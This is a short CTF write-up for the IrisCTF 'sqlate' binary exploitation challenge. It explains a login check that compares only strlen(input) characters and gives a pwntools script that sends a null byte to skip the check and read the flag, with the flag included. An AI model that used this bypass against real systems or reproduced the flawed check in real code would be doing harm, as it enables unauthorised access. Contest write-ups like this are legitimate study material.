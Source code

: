 ```yaml
---
title: "sqlate"
date: 2025-06-27T22:01:33+02:00
description: "sqlate writeup from IrisCTF CTF - Binary Exploitation challenge"
categories:
    - "CTF Writeups"
    - "Binary Exploitation"
tags:
    - "CTF"
    - "IrisCTF"
    - "Binary Exploitation"
    - "Cybersecurity"
event: "IrisCTF"
challenge: "sqlate"
category: "Binary Exploitation"
weight: 1
---
```


# sqlate

**Event:** IrisCTF | **Category:** Binary Exploitation

---





# Sqlate Write-up

Challenge: Sqlate (50 points)
Category: Web/Binary

## Vulnerability

The vulnerability lies in `action_login()`:

```c
void action_login() {
    read_to_buffer("Password?");
    unsigned long length = strlen(line_buffer);
    for (unsigned long i = 0; i < length && i < 512; i++) {
        if (line_buffer[i] != admin_password[i]) {
            printf("Wrong password!\n");
            return;
        }
    }
}
```

The login function compares characters one by one without verifying the full password length. When we input a null byte (`\x00`), `strlen()` returns 0, causing the comparison loop to be skipped entirely.

## Exploit

```python
from pwn import *

conn = remote('sqlate.chal.irisc.tf', 10000)

conn.recvuntil(b'> ')
conn.sendline(b'5')

conn.recvuntil(b'Password?')
conn.sendline(b'\x00')

conn.recvuntil(b'> ')
conn.sendline(b'7')

flag = conn.recvline()
print(flag.decode())

conn.close()
```

1. Send option 5 for login
2. Send null byte as password to bypass check
3. Use option 7 (hidden) to cat flag
4. Get flag

Flag: `irisctf{real_programmers_use_vim}`

---

**Navigation:**
- [← Back to IrisCTF Overview](/ctf/irisctf/)
- [View All CTF Writeups](/ctf/)
